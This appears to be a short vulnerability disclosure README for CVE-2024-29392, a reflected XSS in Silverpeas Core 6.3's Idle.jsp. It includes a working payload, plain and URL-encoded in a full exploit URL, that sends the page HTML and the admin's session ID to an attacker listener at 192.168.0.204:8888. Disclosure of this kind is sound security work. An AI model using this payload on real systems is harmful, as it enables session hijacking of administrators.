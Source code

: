 # CVE-2024-29392 XSS bypass CSP

Silverpeas Core 6.3 is vulnerable to Cross Site Scripting (XSS) via ClipboardSessionController.

[Vulnerability Type]
Cross Site Scripting (XSS)

[Vendor of Product]
Silverpeas

[Affected Product Code Base]
Silverpeas Core - 6.3.*

[Affected Component]
ClipboardSessionController

[Attack Vectors]
Reflect XSS in GET request would allow a non-authenticator attacker can send a request to admin. When click, attacker can obtain sessionID, this will also bypass the CSP

Payload: <img src=x onerror="this.src='http://192.168.0.204:8888/?'+document.documentElement.outerHTML; this.removeAttribute('onerror');"

http://{LINK}/silverpeas/Rclipboard/jsp/Idle.jsp?%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%22%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%32%30%34%3a%38%38%38%38%2f%3f%27%2b%64%6f%63%75%6d%65%6e%74%2e%64%6f%63%75%6d%65%6e%74%45%6c%65%6d%65%6e%74%2e%6f%75%74%65%72%48%54%4d%4c%3b%20%74%68%69%73%2e%72%65%6d%6f%76%65%41%74%74%72%69%62%75%74%65%28%27%6f%6e%65%72%72%6f%72%27%29%3b%22%3e=aE


[Reference]
https://phulelouch.github.io/


[Discoverer]
phulelouch (Harvey Spec)

[Video PoC]
https://drive.google.com/file/d/1QQKhURt-RjgnneILSTyPwhrs_wfSK5UI/view?usp=sharing

